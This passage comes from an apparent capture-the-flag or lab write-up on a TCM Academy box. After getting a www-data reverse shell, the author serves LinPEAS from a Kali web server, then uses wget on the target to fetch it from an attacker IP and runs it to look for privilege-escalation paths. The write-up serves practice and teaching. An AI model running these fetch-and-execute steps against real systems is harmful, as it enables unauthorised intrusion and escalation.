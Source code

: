 At this point, I had successfully gained access as the www-data user, but I wasn’t logged in as root. Therefore, the next step was to attempt privilege escalation to gain higher-level access to the system.

I decided to use LINPEAS, a popular tool designed to hunt for potential privilege escalation opportunities on Linux systems. LINPEAS automates the process of searching for misconfigurations, weaknesses, and other possible vectors that could allow a low-privileged user to escalate to root.

LINPEAS can be downloaded from its GitHub repository:

<a href="https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md">LINPEAS GitHub Repository</a>

Next, I created a transfer folder on my Kali machine to store the LINPEAS script. I spun up a web server within this directory to serve files that can be downloaded by other machines. 

```bash
mkdir transfers
cd transfers
python3 -m http.server 80
```
<img src="/assets/images/tcm-academy/academy-20.png">

I downloaded LINPEAS into my transfers directory on my Kali machine and then transfered it to the target (via the reverse shell connection) by using a wget command on the target machine (wget http://<attackerIP>/linpeas.sh). I then ran LINPEAS there to search for privilege escalation vectors:


```bash
wget http://192.168.17.134/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<img src="/assets/images/tcm-academy/academy-21.png">
